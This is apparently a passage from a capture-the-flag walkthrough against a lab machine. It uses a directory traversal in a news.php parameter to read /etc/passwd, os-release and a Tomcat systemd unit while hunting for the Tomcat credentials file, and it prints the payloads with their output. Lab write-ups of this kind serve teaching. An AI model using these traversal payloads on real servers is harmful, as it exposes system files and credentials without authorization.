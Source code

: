 ```bash
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
...
```
and operating system info:
```bash
GET /news.php?file=../../../../etc/os-release

NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```
I try for a bit longer, but after a while decide to move on.  
Now looking at the tomcat installation on http://10.10.10.194:8080.  
According to the available documentation, this version is Apache Tomcat 9, Version 9.0.31, Feb 24 2020. We can try and use our directory traversal point to find the tomcat creds which should be at "conf/tomcat-users.xml" according to the 401 screen.  
I do some further exploring using my previously-discovered enumeration point:
```bash
../../../../etc/systemd/system/tomcat.service 
[Unit]
Description=Tomcat 9 servlet container
After=network.target

[Service]
Type=forking

User=tomcat
Group=tomcat

Environment="JAVA_HOME=/usr/lib/jvm/default-java"
Environment="JAVA_OPTS=-Djava.security.egd=file:///dev/urandom -Djava.awt.headless=true"

Environment="CATALINA_BASE=/opt/tomcat/latest"
Environment="CATALINA_HOME=/opt/tomcat/latest"
Environment="CATALINA_PID=/opt/tomcat/latest/temp/tomcat.pid"
Environment="CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC"

ExecStart=/opt/tomcat/latest/bin/startup.sh
ExecStop=/opt/tomcat/latest/bin/shutdown.sh

[Install]
WantedBy=multi-user.target
```
With this information about where all Tomcat's configuration files SHOULD be, I wrote a script - see scan.py and wordlist.txt, to scan every tomcat install file inside /opt/tomcat/latest, however came up empty handed. I decide to spin up a VM using some handy Azure credits and install Tomcat and see where it is locally. By doing this, I discover another installation directory that is used for Debian installs.
